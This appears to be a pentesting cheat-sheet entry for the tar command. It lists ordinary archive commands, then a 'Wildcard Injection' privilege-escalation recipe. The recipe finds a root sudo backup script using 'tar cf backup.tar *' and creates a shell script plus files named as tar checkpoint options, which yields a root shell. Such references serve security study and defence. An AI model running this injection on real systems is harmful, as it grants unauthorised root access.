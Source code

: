 ```yaml
---
title: Tar
desc: Archives files and directories, or extracts them.
tags: [Linux, PrivEsc, SMB, SUID, Windows]
alts: [7zip, Bzip2, Gzip, Zip]
website:
render_with_liquid: false
---
```


## Create archives

```sh
tar -cf archive.tar sample.txt
tar -cf archive.tar sample1.txt sample2.txt
```

<br />

## Extract

```sh
tar -xf archive.tar
```

<br />

## View the content

```sh
tar -tf archive.tar
```

<br />

## Wildcard Injection

```sh
# Check if there are 'tar' command and wildcard(*) in the sudoers
sudo -l

(root) NOPASSWD: /opt/backups/backup.sh


# Move to the directory and check the content.
cd /opt/backups
cat backup.sh

tar cf backup.tar *


# Payloads
cd /opt/backups
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1


# Check current user
whoami
```